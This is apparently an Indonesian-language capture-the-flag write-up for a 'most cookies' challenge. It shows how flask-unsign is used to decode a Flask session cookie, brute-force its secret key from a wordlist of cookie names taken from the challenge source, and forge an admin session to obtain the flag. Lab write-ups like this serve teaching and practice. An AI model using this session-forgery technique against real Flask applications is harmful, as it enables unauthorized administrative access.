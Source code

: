 # most cookies

## Alat
- install flask

## Steps
![sc_1](sc_1.png)

1. Karena soal ini tentang cookies, maka setelah masuk ke websitenya kita cookies yang dimiliki website tersebut (bisa melalui inspect element).
![sc_2](sc_2.png)
Disini session yang saya dapat adalah "eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.ZJwv8g.UnXxAK_EhhV2PNwUhx_T2qoRpYM"

2. Di soal juga disebut bila website ini menggunakan flask. Maka kita akan download flask-unsign untuk mendecode session ini.

3. Di command prompt, kita masukkan perintah `flask-unsign --decode --cookie "FLASK_SESSION"` kita bisa mendapatkan plaintext dari session yang sudah kita terima.
![sc_3](sc_3.png)

4. Mari sejenak kita analisis file server.py yang diberikan oleh soal.
```python
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)
```
Dari penggalan source code diatas, kita tahu jika cookies yang digunakan terbatas pada value di variabel cookie_name, lalu secret key yang digunakan diambil secara random dari cookie_names juga.

```python
def flag():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "admin":
			resp = make_response(render_template("flag.html", value=flag_value, title=title))
			return resp
		flash("That is a cookie! Not very special though...", "success")
		return render_template("not-flag.html", title=title, cookie_name=session["very_auth"])
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp
```
Melihat fungsi diatas, untuk bisa mendapat flagnya, kita harus mengganti cookie nya menjadi admin.

5. Sekarang kita akan cari secret key yang digunakan pada session yang kita dapatkan tadi, pertama kita buat dulu wordlist yang berisi semua kemungkinan cookie yang ada. (diambil dari kumpulan cookie tadi dan juga 'blank')
![sc_4](sc_4.png)

6. Lalu kita akan menggunakan perintah `flask-unsign --unsign --cookie "FLASK_SESSION" --wordlist PATH\TO\WORDLIST`
![sc_5](sc_5.png)
Disini kita sudah mendapatkan secret keynya

7. Selanjutnya masukkan perintah`flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret "SECRET_KEY"`
![sc_6](sc_6.png)

8. Copy kode enkripsi tadi untuk menggantikan value pada website session, lalu refresh.
![sc_7](sc_7.png)

9. Flag sudah kita dapat.
![sc_8](sc_8.png)